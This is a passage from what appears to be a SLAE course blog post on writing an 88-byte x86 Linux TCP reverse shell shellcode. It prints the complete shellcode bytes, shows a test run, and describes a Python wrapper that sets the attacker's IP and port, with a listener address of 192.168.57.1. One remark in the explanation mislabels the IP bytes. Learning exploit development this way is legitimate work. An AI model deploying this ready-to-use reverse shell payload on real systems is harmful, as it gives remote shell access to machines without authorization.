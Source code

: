 Before `sc_test` is executed, a `nc` or `ncat` listener should once again be set up in a seperate terminal window to act as the remote system to which the reverse shell should connect to, as previously explained in the "Testing Assembly" section of this post. Once the listener is configured, running `sc_test` once again results in a shell on the system, which confirms that the shellcode works in the context of a C program.

The length of the TCP reverse shell shellcode is 88; a whopping 21 bytes shorter than the 109 byte-length TCP bind shell shellcode!

```shell
root@kali:~/workspace/SLAE/assignments/0x02# ./sc_test
Shellcode Length: 88
```

### Wrapper Program for IP & Port Configuration
The remote IP address and the remote port to be included in the TCP reverse shell shellcode can be configured using the Python program explained below. The wrapper program configured in the last section of the previous post has been modified to include reverse shell shellcode, and the functionality to configure a remote IP address and port for the target system to connect to. The output below shows the usage options of the program.

```shell
root@kali:~/workspace/SLAE/assignments/0x02# python3 ConfShell.py 
[*] Usage: python3 ConfShell.py bind [BIND_PORT]
[*] Usage: python3 ConfShell.py reverse [IP] [LISTEN_PORT]
```

The reverse shell shellcode as explained in this post has been added as the reverse shell payload that the Python program will modify, and is shown below for reference.

```shell
 \x31\xdb\xf7\xe3\x52\x6a\x01\x6a\x02\x89\xe1\xfe\xc3\xb0\x66\xcd\x80\x89\xc3\xbf\xff\xff\xff\xff\xb9\x80\xff\xff\xfe\x31\xf9\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x53\x89\xe1\xb0\x66\xcd\x80\x89\xd1\xb0\x3f\xcd\x80\xfe\xc1\xb0\x3f\xcd\x80\xfe\xc1\xb0\x3f\xcd\x80\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xd1\x89\xe3\xb0\x0b\xcd\x80
 ```

 The functionality that provides the user to specifiy a port works the same as explained in the previous post, so it will not be explained again here. For more detail on how the port configuration works within the program, reference the previous post. Similar logic was used to replace the hardcoded complementary hexadecimal remote IP address specified within the shellcode above (`\x80\xff\xff\xfe`). Note that as the `XOR` operation is used in calculating the remote IP address, the address that is complentary to the `XOR` value of the IP address appears in the shellcode as opposed to the remote address itself (i.e. `\x80\xff\xff\xfe` is `128.255.255.254` which has all bits set that `127.0.0.1` or `\x80\xff\xff\xfe` do not have set). To save space, the program code has not been included here. The full code for the program can be found on [GitHub](https://github.com/norrismw/SLAE).

A demonstration of the IP address and port configuration functionality of the wrapper program for the reverse shell shellcode follows. As seen below, the system with the IP address `192.168.57.1` will receive the connection from the reverse shell shellcode which will generated using the wrapper program.

```shell
SLAE-1469-MacBook-Pro:~ SLAE-1469$ ifconfig | grep 192.168.57.1
    inet 192.168.57.1 netmask 0xffffff00 broadcast 192.168.57.255
```
